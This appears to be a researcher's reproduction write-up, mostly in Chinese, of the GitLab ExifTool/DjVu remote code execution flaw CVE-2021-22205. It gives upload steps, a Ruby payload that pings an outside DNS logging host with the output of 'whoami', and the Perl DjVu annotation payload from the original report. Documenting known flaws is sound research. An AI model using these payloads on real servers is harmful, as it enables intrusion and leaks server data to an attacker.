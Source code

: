 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2021-22205 snippet RCE
toc: true
permalink: /about/Gitlab-RCE-with-snippet-function/
author: Bin4xin
desc: 「Gitlab」
---
```


### 复现

- Create a new snippet
- 登录创建一个仓库，并且创建新的`snippet`
- In the description field, hit `"Attach a file"`; Select and uplaod echo_vakzz.jpg
- [`echo_vakzz.jpg`](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Gitlab/CVE-2021-22205/echo_vakzz.jpg){:target="_blank"}上传附件
- See that the file /tmp/vakzz has been created on the server

也可以通过未授权RCE，具体可以查看[(CVE-2021-22205)RCE - 七、手工复现-未授权](https://www.freebuf.com/articles/web/303375.html){:target="_blank"}

> 制作rce图片可直接编辑，修改下面的代码就好；或者上面的文章中
>
> **[六、手工复现-有授权 - 2 DjVu格式图片制作方式]**
>
> 也有相应的制作方法。

```ruby
qx{ping `whoami`.5pxha.i3ntq7.bnslog.top}
```

### 效果

![May-18-2022-11-27-15.gif]({{site.PicturesLinks_Domain}}/images/2022/05/18/May-18-2022-11-27-15.gif)

### 分析

如作者在报告里所说：

- When uploading image files, GitLab Workhorse passes any files with the extensions `[jpg|jpeg|tiff]` through to ExifTool to remove any non-whitelisted tags.
- 上传图像文件时，`GitLab Workhorse` 会将任何扩展名为 `jpg|jpeg|tiff` 的文件传递给 `ExifTool`，以删除任何未列入白名单的标签。

```go
func IsExifFile(filename string) bool {
	filenameMatch := regexp.MustCompile(`(?i)\.(jpg|jpeg|tiff)$`)

	return filenameMatch.MatchString(filename)
}
```

- One of the supported formats is DjVu. When parsing the DjVu annotation, the tokens are evaled to "convert C escape sequences".

```perl
(metadata
	(Copyright "\
" . qx{echo vakzz >/tmp/vakzz} . \
" b ") )
```

### 参考

- [HackerOne - RCE when removing metadata with ExifTool](https://hackerone.com/reports/1154542){:target="_blank"}
- [GitLab 远程命令执行漏洞复现(CVE-2021-22205)](https://www.freebuf.com/articles/web/303375.html){:target="_blank"}